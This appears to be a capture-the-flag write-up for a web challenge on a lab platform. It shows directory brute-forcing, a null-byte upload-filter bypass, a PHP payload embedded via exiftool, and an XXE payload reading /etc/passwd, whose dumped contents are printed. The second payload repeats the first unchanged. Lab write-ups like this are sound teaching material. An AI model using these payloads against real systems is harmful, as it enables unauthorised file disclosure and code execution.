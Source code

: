 # Solve book-lover
#### https://cybertalents.com/challenges/web/book-lover

![alt text](images/image-1.png)
### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6mgjk31eotrvmej6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

Nothing found 

### Try file upload .gif
![alt text](images/image.png)

### Analyze with burp

```http
POST /index.php HTTP/1.1
Host: wcamxwl32pue3e6mgjk31eotrvmej6zqdkgxu639-web.cybertalentslabs.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------210704121221632483882569698550
Content-Length: 52973
Origin: http://wcamxwl32pue3e6mgjk31eotrvmej6zqdkgxu639-web.cybertalentslabs.com
Connection: close
Referer: http://wcamxwl32pue3e6mgjk31eotrvmej6zqdkgxu639-web.cybertalentslabs.com/index.php
Cookie: _ga_B38952S5RT=GS1.1.1718765785.1.1.1718765798.47.0.0; _ga=GA1.1.1474852010.1718765786; _gid=GA1.2.1593788188.1718765787; _clck=yv78z1%7C2%7Cfmr%7C0%7C1631; ajs_anonymous_id=79cb6015-fb56-43db-bbe9-121c0fe1885e; _clsk=6xoexu%7C1718765788508%7C1%7C1%7Cy.clarity.ms%2Fcollect; _fbp=fb.1.1718765789636.122478108392360263; _ga_S72LBY47R8=GS1.1.1718766980.1.1.1718767179.0.0.0
Upgrade-Insecure-Requests: 1

-----------------------------210704121221632483882569698550
Content-Disposition: form-data; name="name"

test
-----------------------------210704121221632483882569698550
Content-Disposition: form-data; name="books"; filename="1.gif"
Content-Type: image/gif
```

### Bypass xml restriction
#### Change Content-Type
```http
Content-Type: text/xml
```

we got `Only xml Extention Are Allowed`

#### null byte bypass
```http
Content-Disposition: form-data; name="books"; filename="1.gif%00.xml"
Content-Type: text/xml
```

Bypassed!!

### Embed PHP code to the file 
`exiftool -Comment="<?php show_source(./index.php); ?>" image.jpg -o exploit.php`

Upload the file and Intercept the request and edit it to bypass the restriction

![alt text](images/image-2.png)

But we can't access the directory of uploaded files to trigger the code.

### Try XXE

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```
![alt text](images/image-3.png)

decode base64 with `hURL -d "<string>"`

etc/passwd : 

```bash
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

Get the source code 
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd"> ]>
<data>&example;</data>
```

![alt text](images/image-4.png)

*You can view the source in [index.php](index.php)*

The flag is in the source code

### Resources 
[File upload](https://book.hacktricks.xyz/pentesting-web/file-upload)

[XXE payloads](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

>Find More on ==> github.com/MedhatHassan 
